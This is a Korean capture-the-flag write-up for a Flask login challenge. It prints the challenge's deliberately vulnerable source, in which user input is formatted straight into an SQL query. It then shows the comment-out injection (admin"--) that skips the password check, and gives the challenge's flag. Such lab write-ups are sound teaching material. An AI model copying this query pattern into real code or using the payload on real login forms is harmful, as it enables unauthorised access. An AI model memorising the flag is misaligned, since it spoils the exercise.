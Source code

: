 문제는 **로그인 서비스입니다. SQL INJECTION 취약점을 통해 플래그를 획득하세요. 플래그는 flag.txt, FLAG 변수에 있습니다.** 입니다.  

코드를 보면 다음과 같습니다.  

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
```

다음은 웹 사이트 입니다.  

<img src="7.jpg"> <img src="4.jpg">

1. /login
로그인을 하는 화면입니다.

먼저 GET(로그인 화면으로 들어갈 때) 을 하면 **login.html** 을 render 합니다.  
그리고 POST(로그인 버튼을 누를 때) 를 하면 **userid, userpassword** 를 가져와서

```SQL
select * from users where userid="{userid}" and userpassword="{userpassword}"
```

에 넣어서 이 쿼리문에 대한 결과를 반환합니다.  

그렇다면, SQL Injection 의 실습에서 했던 것처럼 **userpasword** 를 검사하지 못하게, **주석처리**를 하면 됩니다.  

따라서 이렇게 공격문을 적을 수 있습니다.

<img src="5.jpg">

이렇게 적으면,

```SQL
select * from users where userid="admin"--" and userpassword="{userpassword}"
```

이렇게 인식이 되서

```SQL
select * from users where userid="admin"
```

이러한 쿼리가 완성됩니다.

따라서 **users 테이블에서 userid 가 admin인 속성(userid, userpassword) 를 보여주는 쿼리**입니다.

```python
res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
```

즉, /login에 있는 위의 코드에서 **질의 결과가 res** 에 들어가고, **res의 0번 인덱스를 userid** 에 넣습니다.

그리고 userid 가 **admin** 이면, **FLAG**를 보여주는 방식입니다.

<img src="6.jpg">

따라서 정답은 **DH{c1126c8d35d8deaa39c5dd6fc8855ed0}** 입니다.